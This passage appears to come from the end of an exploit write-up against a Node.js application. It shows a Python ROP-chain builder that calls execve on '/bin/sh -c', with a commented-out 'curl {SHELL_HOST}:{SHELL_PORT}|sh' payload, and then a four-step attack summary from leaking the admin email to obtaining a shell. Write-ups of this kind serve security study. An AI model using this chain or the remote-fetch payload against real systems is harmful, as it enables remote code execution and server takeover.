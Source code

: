 ```python

    if __name__ == "__main__":
        argv = [RW_SECTION+0x100, RW_SECTION+0x200, RW_SECTION+0x300]
        argv_arr = RW_SECTION

        content = flat([
            PIVOT_GADGET,
            SIGNUM,

            # Write execve() arguments
            *gadget_create_string(argv[0], "/bin/sh"),
            *gadget_create_string(argv[1], "-c"),
            # *gadget_create_string(argv[2], f"curl {SHELL_HOST}:{SHELL_PORT}|sh"),
            #*gadget_create_string(argv[2], f"sleep 100"),
            *gadget_create_string(argv[2], f"touch /tmp/pwned"),
            #! Warning: due to limited chain size, the command needs to be pretty short

            # Create argv[] array
            *gadget_write_at(argv_arr, argv[0]),
            *gadget_write_at(argv_arr + 8, argv[1]),
            *gadget_write_at(argv_arr + 16, argv[2]),

            # Run execve syscall
            POP_RAX,
            constants.SYS_execve,
            POP_RDI,
            argv[0],
            POP_RSI,
            argv_arr,
            POP_RDX,
            0,
            SYSCALL,
        ])

        return content

file_content = make_rop_chain()
with open('exploit.bin', 'wb') as f:
    f.write(file_content)
```

An important point to note is that for the exploit to be successful, all addresses used in it must be valid UTF-8 characters.

In this particular version of Node.js, all the gadget addresses were already valid UTF-8, so I did not add any separate logic to check for this.

## Exploit

Here is a summary of the exploit process described above:

1. **Leak the admin's email address.**
2. **Change the admin's password.**
3. **Exploit the Multer vulnerability** to upload the malicious `exploit.bin` file to `/proc/self/fd/{fd_number}`.
4. **Obtain a shell.**
